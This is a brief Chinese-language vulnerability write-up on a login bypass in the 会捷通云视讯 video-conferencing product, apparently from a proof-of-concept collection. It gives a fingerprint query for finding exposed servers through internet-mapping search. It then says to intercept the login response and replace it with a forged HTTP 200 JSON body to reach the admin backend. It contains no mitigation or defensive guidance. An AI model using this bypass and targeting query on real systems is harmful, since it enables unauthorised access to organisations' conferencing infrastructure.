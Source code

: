 # 会捷通云视讯 登录绕过漏洞

# 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

```
会捷通云视讯
```

## 网络测绘

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下



![](/images/202202101858604.png)



输入任意账号密码抓包



![](/images/202202101858666.png)

修改返回包为如下后放包则成功绕过登录



```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```



![](/images/202202101858916.png)

